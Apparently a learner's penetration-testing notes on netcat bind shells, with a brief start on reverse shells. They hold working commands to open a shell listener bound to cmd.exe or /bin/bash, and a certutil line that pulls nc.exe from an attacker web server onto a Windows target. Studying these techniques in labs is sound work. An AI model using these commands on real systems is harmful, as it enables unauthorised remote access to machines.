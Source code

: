 ![[Pasted image 20230906115157.png]]
					*Attacker connects to netcat listener on target *

BINDSHELL - A type of remote shell where the attacker connects to a listener on the target system.

NETCATCLIENT: `nc -nv target_ip port ` 
NETCATLISTENER: - Windows:`nc.exe -nlvp port -e cmd.exe` 
							- Linux: `nc -nvlp port -e /bin/bash `

the Windows target system should use the `nc.exe` command to set up the listener with the `-lvp` and `-e cmd.exe` options, while the Linux attacker system should use the `nc` command to initiate the connection to the Windows target's IP address and port. This allows the attacker to gain access to a Windows command prompt on the target system once the connection is established.


###### How to set up bind shell   
Terminal 1 (kali - attacker)
- go to directory that contains the netcat binary: `cd /usr/share/windows-binaries `
- set up webserver: `python -m SimpleHTTPServer 80 `
  Download the netcat file on target system 

Terminal on target system (windows)
- `certutil -urlcache -f http://[Kali-IP]/nc.exe nc.exe` 
- go into folder where the file is downloaded (`cd`)
 the target system needs to set up a netcat listener and needs to be configured to execute CMD.exe 
- set up netcat listener: `nc.exe -nvlp 1234 -e cmd.exe `
whenever the client connects to listener, cmd will be executed and the target or attacker system will be provided with command shell 
 10.10.24.4
terminal (kali) to set up the bind shell 
- `nc -nv target_ip port `
![[Pasted image 20230906143025.png]]




Set up bind shell on linux system: 

on linux target system
- `nc -nvlp port -c /bin/bash `

On windows system (attacker)
- `nc.exe -nv  ip port `
- ls whoami getuid 

### Reverse shells

![[Pasted image 20230912132900.png]]
	- with reverse  shell you need a connection that is made from target system to the listener, you don't really need netcat for that.  
	- Reverse shell is better because outgoing traffic is not blocked by firewalls 


![[1601538025320.png]]
